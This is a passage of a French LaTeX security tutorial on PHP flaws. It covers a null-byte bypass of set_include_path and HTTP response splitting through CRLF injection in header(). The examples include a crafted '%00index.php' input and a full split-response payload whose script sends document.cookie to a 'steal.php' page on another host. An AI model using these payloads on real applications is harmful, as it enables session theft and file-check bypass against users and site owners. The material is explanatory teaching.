Une petite faille qui montre qu'un caractère null est toujours une épine qui existe dans de nombreuses applications et la dernière version de php ne fait pas exception à la règle (5.5.12). Cette CVE permet de bypasser certaines fonctions en entrant des caractères supplémentaires. Par exemple, prenons la fonction set\_include\_path() qui permet de specifier le get\_include\_path() de l'application. Le contexte est le suivant, l'utilisateur ne doit en aucun cas pouvoir uploader des .php qui pourrait compromettre l'application. Notre développeur jeune et fougueux va écrire du code de manière étrange et qui fonctionne :
\vspace{0.2cm}\\
\fbox{\parbox{\textwidth}{

\includegraphics[width=\textwidth]{cve1}
}}
\vspace{0.2cm}

Si on essaye par exemple de rentrer dans la variable path : index.php, nous ne passerons pas le strpos. Cependant la fonction set\_include\_path presente une faille sur le caractère null, nous allons donc essaye : \%00index.php
\vspace{0.2cm}\\
\fbox{\parbox{\textwidth}{

\includegraphics[width=\textwidth]{cve2}
}}
\vspace{0.2cm}

A noter que cette faille existe sur plusieurs fonctions de php comme :\\ 

tempnam(),rmdir(),readlink(),pcntl\_exec(),move\_uploaded\_file()\\

\newpage
\section{Les anciennes failles}
\subsection{HTML Splitting}

Cette faille qui existait dans les vielles version de php n'est actuellement plus possible. Elle touchait principalement la fonction header. Cette fonction via l'injection de CRLF permettait d'ajouter des requêtes HTML dans des requêtes HTML. Le principe est le suivant :
\vspace{0.2cm}\\
\fbox{\parbox{\textwidth}{
header("Location: \$\_GET['page'];");
}}
\vspace{0.2cm}

Cette fonction redirigeait l'utilisateur via une requete qui contenait la chaine entré par l'utilisateur. La requete alors perçu par le serveur était la suivante avec le lien suivant :\\ 
www.latsuj.com?page=www.latsuj.com
\vspace{0.2cm}\\
\fbox{\parbox{\textwidth}{
HTTP/1.x 302 Found\\
Location: www.latsuj.com
}}
\vspace{0.2cm}

Maintenant l'absence de filtre de CRLF permettait de rentrer de nouveau élément dans la requête comme ci-dessous avec le lien suivant :\\
www.latsuj.com?page=www.latsuj.com\textbackslash r\textbackslash nContent-Length: 0
\vspace{0.2cm}\\
\fbox{\parbox{\textwidth}{
HTTP/1.x 302 Found\\
Location: www.latsuj.com\\
Content-Length: 0
}}
\vspace{0.2cm}

Comme on peux le voir ci-dessus, on a réussi à incorporé un élément à la requête. En allant encore une plus loin, il est possible de recréer complètement une requête dans cette dernière. En poussant ainsi le vice, il est possible d'utiliser les failles XSS, les attaques CSRF ou encore les caches poisonning. L'éventail d'attaque est important. Je vais tout de même donner un petit exemple avec l'emploi d'un cookie stealer :
\vspace{0.2cm}\\
\fbox{\parbox{\textwidth}{
HTTP/1.1 302 Found\\
Location:\textbackslash r\textbackslash n\\
Content-Length: 0\textbackslash r\textbackslash n\\
\textbackslash r\textbackslash n\\
HTTP/1.1 200 OK\textbackslash r\textbackslash n\\
Content-Type: text/html\textbackslash r\textbackslash n\\
Content-Length: 200\textbackslash r\textbackslash n\\
\textbackslash r\textbackslash n\\
<script>\\
document.location="http://www.lastuj.com/steal.php?cookie=" document.cookie;\\
</script>
}}
\vspace{0.2cm}


\newpage
\section{Bibliographie}
\subsection{SMTP Injection}
\begin{itemize}
\item http://www.phpsecure.info/v2/article/MailHeadersInject.php
\end{itemize}
\end{document}